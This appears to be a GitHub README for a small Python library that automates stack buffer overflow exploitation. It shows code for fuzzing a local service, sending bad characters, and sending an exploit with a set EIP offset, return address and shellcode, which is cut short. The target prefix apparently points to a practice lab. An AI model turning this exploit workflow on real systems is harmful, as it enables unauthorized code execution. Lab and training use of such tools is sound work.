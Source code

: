 # What is BUFF?
A simple BOF library I wrote under an hour to help me automate with BOF attack.
It comes with fuzzer and a generic method to generate exploit easily.

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")
runner.fuzz()
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337), prefix = "OVERFLOW0 ")

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Send real exploit
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
